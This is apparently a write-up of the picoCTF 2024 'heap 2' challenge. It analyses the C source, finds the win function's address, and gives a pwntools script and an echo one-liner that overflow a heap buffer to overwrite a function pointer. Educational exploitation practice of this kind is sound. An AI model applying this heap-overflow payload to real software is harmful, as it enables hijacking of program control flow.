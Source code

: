 # heap 2
echo -e -n "2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00\n3\n4\n" |

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: Binary Exploitation, picoCTF 2024, browser_webshell_solvable, heap
Author: ABRXS, PR1OR1TYQ

Description:
Can you handle function pointers?

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc mimas.picoctf.net 61205
 
Hints:
1. Are you doing the right endianness?
```

Challenge link: [https://play.picoctf.org/practice/challenge/435](https://play.picoctf.org/practice/challenge/435)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.

```c
int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Main basically does the following:

- Initialize the heap by calling the `init` function
- Print the menu with the `print_menu` function
- Read the menu choice, basically 1-4, and do different things based on the choice

The big difference compared to the previous heap challenge is that the `check_win` function (menu choice 4) is "empty" and will call the address pointed to from the variable `x`

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

There is also a `win` function that will print the flag for us

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ file chall               
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d5184d264ae0c1259ba3bb7a1e20fc348b4274b0, for GNU/Linux 3.2.0, with debug_info, not stripped

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ ./chall                    

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x49e6b0  ->   pico
+-------------+-----------+
[*]   0x49e6d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 
```

As before, the difference between the memory positions is 32 bytes.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ python -c "print(0x49e6d0 - 0x49e6b0)"                                                 
32
```

The variable `x` is set to `bico` and if we try to print the flag we get a segmentation fault since `x` currently points to an invalid memory address.

```bash
Enter your choice: 3


x = bico


1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 4
zsh: segmentation fault  ./chall

```

### Create an exploitation script

We need to know the memory address of the `win` function in order to call it.
This can be done with `objdump`

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ objdump -t chall | grep win
00000000004011f0 g     F .text  0000000000000011              check_win
00000000004011a0 g     F .text  0000000000000042              win
```

So the `win` function is at `0x4011a0`.

Next, we write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to get the flag

```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 61205

# Set output level (critical, error, warning, info, debug)
context.log_level = "info"

io = remote(SERVER, PORT)

# Select menu option 2 (Write to buffer)
io.sendlineafter(b"Enter your choice: ", b'2')

# Send payload
win_func = 0x4011a0
payload = 32 * b'A' + p64(win_func)
io.sendlineafter(b"Data for buffer: ", payload)

# Select menu option 4 (Print Flag)
io.sendlineafter(b"Enter your choice: ", b'4')
print(io.recvallS())
io.close()
```

### Get the flag

Finally, we run the script and get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to mimas.picoctf.net on port 61205: Done
[+] Receiving all data: Done (42B)
[*] Closed connection to mimas.picoctf.net port 61205
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Endianness - Wikipedia](https://en.wikipedia.org/wiki/Endianness)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [Heap (data structure) - Wikipedia](https://en.wikipedia.org/wiki/Heap_(data_structure))
- [Heap overflow - Wikipedia](https://en.wikipedia.org/wiki/Heap_overflow)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
